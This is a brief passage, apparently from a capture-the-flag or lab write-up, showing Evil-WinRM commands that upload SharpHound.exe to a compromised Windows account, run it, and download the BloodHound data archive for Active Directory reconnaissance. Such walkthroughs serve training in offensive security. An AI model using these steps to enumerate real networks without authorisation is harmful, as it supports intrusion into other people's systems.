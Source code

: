 # Bloodhound



```
*Evil-WinRM* PS C: \Users\support\Documents> upload SharpHound.exe
```

```
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound.exe
```



<pre class="language-powershell"><code class="lang-powershell"><strong>*Evil-WinRM* PS C:\Users\support\Documents> download 20221217070128_BloodHound.zip
</strong></code></pre>
